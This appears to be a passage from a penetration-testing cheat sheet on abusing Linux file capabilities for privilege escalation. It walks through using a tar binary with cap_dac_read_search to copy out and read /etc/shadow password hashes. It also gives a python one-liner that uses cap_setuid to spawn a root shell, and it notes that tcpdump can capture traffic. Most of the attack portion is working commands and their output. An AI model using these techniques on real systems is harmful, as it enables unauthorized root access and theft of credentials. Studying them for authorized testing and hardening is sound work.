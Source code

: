 ```text
/usr/bin/ping = cap_net_admin,cap_net_raw+p 
/usr/sbin/mtr = cap_net_raw+ep 
/usr/sbin/suexec = cap_setgid,cap_setuid+ep 
/usr/sbin/arping = cap_net_raw+p 
/usr/sbin/clockdiff = cap_net_raw+p 
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep 
/home/user/tcpdump = cap_net_admin,cap_net_raw+ep 
/home/user/openssl =ep 
```

### CAP\_DAC\_READ\_SEARCH 

For example if we found

`/home/nxnjz/tar = cap_dac_read_search+ep` 

 tar has cap\_dac\_read\_search capabilities. This means it has read access to anything. We could use this to read SSH keys, or /etc/shadow and get password hashes. 

```text
nxnjz@test-machine:~$ cat /etc/shadow 
cat: /etc/shadow: Permission denied 
```

But since tar has that capability, we can archive /etc/shadow, extract it from the archive and read it. 

```text
nxnjz@test-machine:~$ ls 
tar 
nxnjz@test-machine:~$ ./tar -cvf shadow.tar /etc/shadow 
./tar: Removing leading `/’ from member names 
/etc/shadow 
nxnjz@test-machine:~$ ls 
shadow.tar tar 
nxnjz@test-machine:~$ ./tar -xvf shadow.tar 
etc/shadow 
nxnjz@test-machine:~$ ls 
etc shadow.tar tar 
nxnjz@test-machine:~$ cat etc/shadow 
root:$1$xyz$Bf.3hZ4SmETM3A78n1nWr.:17735:0:99999:7::: 
```

### CAP\_setuid 

```text
/usr/bin/setcap -r /bin/ping            # remove 
/usr/bin/setcap cap_net_raw+p /bin/ping # add 
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7 
$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")' 
sh-5.0# id 
uid=0(root) gid=1000(swissky) 
```

### CAP\_NET\_RAW 

Can capture data as root 

`Tcpdump -ni {Interface}`  

